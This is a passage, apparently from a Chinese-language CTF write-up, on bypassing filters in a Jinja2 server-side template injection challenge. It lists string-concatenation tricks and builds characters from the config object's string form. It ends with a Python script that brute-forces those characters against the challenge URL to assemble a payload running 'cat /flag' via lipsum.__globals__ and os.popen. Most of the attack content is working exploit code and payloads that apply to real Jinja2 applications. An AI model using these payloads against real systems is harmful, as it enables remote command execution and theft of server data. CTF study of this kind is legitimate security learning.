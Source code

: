 > ```python
> 'm'+'o'
> 'm'~'o'
> ('m','o')|join
> ['m','o']|join
> {'m':a,'o':a}|join
> dict(m=a,o=a)|join
> ```
>
> 字符拼接，（by[总结 - CTF中的SSTI0x01 | Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/21233/)）

request被过滤了，这时候就要自己拼接字符啦，因为下划线被过滤了，`__str__()`用不了，改用过滤器string来输出字符串，然后用过滤器list将其分割输出：`{% print config|string|list %}`
然后利用`pop()`搭配`lower()`来遍历输出小写字符：`{% print (config|string|list).pop().lower() %}`

那就要构造：

```jinja2
{% print (lipsum|attr(__globals__)).get(os).popen(cat /flag).read() %}
```

写脚本跑一下：

```python
import requests

def mdpl(payload):
    url = "http://fb671a45-884e-4552-9390-97a85a0a63f2.challenge.ctf.show:8080/"
    result = ""
    for j in payload:
        for i in range(1000):
            params = {
                'name': "{{% print (config|string|list).pop({}).lower() %}}".format(i)
            }
            r = requests.get(url, params=params)
            # print(r.text.find('<h3>'))
            num = r.text.find('<h3>')+4
            stra = r.text[num]
            if stra == j:
                # print("(config|string|list).pop({}).lower()  ==  {}".format(i, j))
                result += "(config|string|list).pop({}).lower()~".format(i)
                print(result)
                break
    return result


payload1 = "__globals__"
payload2 = "os"
payload3 = "cat /flag"
end = "{{% print (lipsum|attr({})).get({}).popen({}).read() %}}".format(mdpl(payload1).strip('~'), mdpl(payload2).strip('~'), mdpl(payload3).strip('~'))
print(end)


```
